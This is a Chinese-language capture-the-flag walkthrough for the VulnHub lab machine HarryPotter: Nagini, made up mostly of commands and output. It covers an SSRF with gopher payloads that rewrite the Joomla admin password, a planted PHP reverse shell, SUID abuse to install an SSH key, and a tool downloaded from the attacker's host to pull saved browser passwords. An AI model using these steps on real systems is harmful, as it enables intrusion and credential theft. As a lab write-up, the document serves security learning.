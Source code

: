靶机地址：[HarryPotter: Nagini ~ VulnHub](https://vulnhub.com/entry/harrypotter-nagini,689/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.101
sudo nmap -p22,80 -sV 192.168.1.101
# 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```
web路径扫描
```Shell
sudo dirsearch -u http://192.168.1.101
# /joomla
# /joomla/administrator
sudo dirsearch -u http://192.168.1.101/joomla
# /joomla/README.txt
# /joomla/configuration.php.bak
# /joomla/htaccess.txt
# /joomla/robots.txt
# /joomla/web.config.txt
```
看了一下，只有 `/joomla/configuration.php.bak` 里面有一些信息
```php
public $sitename = 'Joomla CMS';
public $editor = 'tinymce';
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'goblin';
public $password = '';
public $db = 'joomla';
public $dbprefix = 'joomla_';
public $secret = 'ILhwP6HTYKcN7qMh';
public $mailfrom = 'site_admin@nagini.hogwarts';
public $log_path = '/var/www/html/joomla/administrator/logs';
public $tmp_path = '/var/www/html/joomla/tmp';
```
扩大一下字典
```Shell
sudo dirsearch -u http://192.168.1.101 -f -e html,php,txt -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
# /note.txt
```
访问 `/note.txt` 内容大致为，将在使用了HTTP/3的 `https://quic.nagini.hogwarts` 进一步沟通
`code .\drivers\etc\hosts`
```
# nagini.hogwarts
192.168.1.101    quic.nagini.hogwarts
```
启动HTTP/3客户端，访问 `https://quic.nagini.hogwarts` ，得到如下提示：`/internalResourceFeTcher.php` ，访问这个路径，提示内部网络资源获取，有一个 `url` 参数
```
/internalResourceFeTcher.php?url=file:///etc/passwd
/internalResourceFeTcher.php?url=http://127.0.0.1
/internalResourceFeTcher.php?url=gopher://127.0.0.1:22
```
生成利用Payload
```Shell
./gopherus.py --exploit mysql
# Give MySQL username: goblin
# Give query to execute: use joomla; show tables;

# select column_name from information_schema.columns where table_name="joomla_users";

# select id, username, password from joomla.joomla_users;
```
查出的用户ID、账号和密码为
```
675
site_admin
$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay
```
这个密码想要破解比较麻烦，可以换个思路更新这个字段，修改密码
```Shell
echo -n "aaaabbbb" | md5sum
# c622054d9e6f17b43814ad5d61cab239
```
再次生成Payload
```Shell
./gopherus.py --exploit mysql
# update joomla.joomla_users set password="c622054d9e6f17b43814ad5d61cab239" where id = 675;
```
成功登录进后台，修改模板中的代码，直接上传也行，代码参考：
```Shell
cp /usr/share/webshells/php/php-reverse-shell.php .
vim php-reverse-shell.php # 改一下IP和端口号
cat php-reverse-shell.php
```
成功后开启监听，访问对应路径，如 `/joomla/templates/beez3/index.php`
成功获得反弹shell，尝试提权
简单信息收集了一下，发现 `hermoine` 用户的目录下有SUID文件，可能是要先提权到 `hermoine`
在另一个用户 `snape` 的目录下发现一个隐藏文件 `.creds.txt` 可读，内容如下
```
TG92ZUBsaWxseQ==
```
解码后为 `Love@lilly` ，尝试SSH，成功登录 `snape` 用户
可以通过SUID文件提权到 `hermoine` ，看了下帮助，其实就是 `cp` 命令
思路：把本机的ssh公钥下载到靶机上，拷贝到 `hermoine` 的对应目录下
```Shell
/home/hermoine/bin/su_cp id_rsa.pub /home/hermoine/.ssh/authorized_keys
```
再通过SSH成功登录 `hermoine` ，根目录下发现 `.mozilla` 目录
可以尝试获取浏览器中的机密信息
```Shell
wget http://192.168.1.26:7331/hack-browser-data-linux-amd64
chmod +x hack-browser-data-linux-amd64
./hack-browser-data-linux-amd64 --browser firefox
# UserName,Password,LoginURL,CreateDate
# root,@Alohomora#123,,2021-04-04T11:35:57+05:30
```
用这个账号密码成功登录root用户
